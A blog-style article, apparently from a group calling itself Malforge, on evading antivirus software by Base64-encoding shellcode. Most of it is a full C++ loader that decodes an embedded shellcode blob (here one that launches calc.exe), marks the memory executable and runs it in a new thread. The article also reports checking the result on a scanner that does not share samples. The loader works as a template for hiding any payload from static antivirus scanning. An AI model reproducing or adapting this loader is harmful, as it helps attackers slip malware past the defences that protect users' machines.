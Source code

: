 # AntiVirus Evasion with Payload Encoding

## Introduction

This article explores a method to evade antivirus detection by encoding shellcode with Base64, making it harder for security tools to identify the payload.

This article explains how Base64 encoding is used to conceal a malicious payload. During execution, the payload is decoded and run, helping to bypass static antivirus detection—though dynamic analysis and sandbox environments may still flag it.

![image](https://github.com/user-attachments/assets/c086dade-7981-4e0d-9075-b0a8c0210afa)

### Base64 :

> Base64 - MDN Web Docs Glossary: Definitions of Web-related terms | MDN\
Base64 is a group of similar binary-to-text encoding schemes that represent binary data in an ASCII string format by [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Glossary/Base64)

**Base64** is a [binary-to-text encoding](https://en.wikipedia.org/wiki/Binary-to-text_encoding) method that converts binary data into ASCII characters by encoding it in a radix-64 format, making it suitable for data transmission and obfuscation.

Base64 encoding is used to safely encode binary data for storage or transmission over systems that handle ASCII, preserving data integrity during transfer. It's widely used in applications like email [(MIME)](https://en.wikipedia.org/wiki/MIME) and embedding complex data in formats like [XML](https://developer.mozilla.org/en-US/docs/Web/XML).

![image](https://github.com/user-attachments/assets/60411ba5-d53e-497a-9936-e1265616d7f1)

Below is the code implementation of Base64 encoding technique for antivirus evasion :

```C++
// open calc.exe
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment(lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);

int DecodeBase64(const BYTE *src, unsigned int srcLen, char *dst, unsigned int dstLen)
{

    DWORD outLen;
    BOOL fRet;

    outLen = dstLen;
    fRet = CryptStringToBinary((LPCSTR)src, srcLen, CRYPT_STRING_BASE64, (BYTE *)dst, &outLen, NULL, NULL);

    if (!fRet)
        outLen = 0; // failed

    return (outLen);
}

int main(void)
{

    void *exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // Allocate new memory buffer for payload
    exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decode the payload back to binary form
    DecodeBase64((const BYTE *)calc_payload, calc_len, (char *)exec_mem, calc_len);

    // Make the buffer executable
    rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, execute!
    if (rv != 0)
    {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Two functions are used in this example:

  - **Main:** First, it allocates memory with `VirtualAlloc`, then decodes the Base64 payload using the `DecodeBase64` function. After preparing the payload, it marks the buffer as executable with             
    `VirtualProtect` and finally executes it using `CreateThread`.

  - **DecodeBase64:** This function converts the Base64 encoded payload into plain text using `CryptStringToBinary` and returns the length of the decoded payload."

## POC :

To test the payload against antivirus software, the following website is used.

> AntiScan.Me | Online Virus Scanner Without Result Distribution\
Scan your file online with multiple different antiviruses without distributing the results of your scan. [antiscan.me](https://www.antiscan.me/)

**Virustotal** is often criticized for using the malware uploaded to its platform.

This are the results without Base64 payload encoding:

![image](https://github.com/user-attachments/assets/eeb7afac-94cb-489c-8dc5-bb3504302ff3)

This are the results with Base64 payload encoding:

![image](https://github.com/user-attachments/assets/9e7ddb18-d699-4003-8efa-65531d78b9d1)

## Conclusions : 

In conclusion, using Base64 helps evade some antivirus software, but not all. Future articles will explore additional methods to bypass more antivirus detection. 

Thanks for reading! :space_invader:	

**-Malforge Group.**
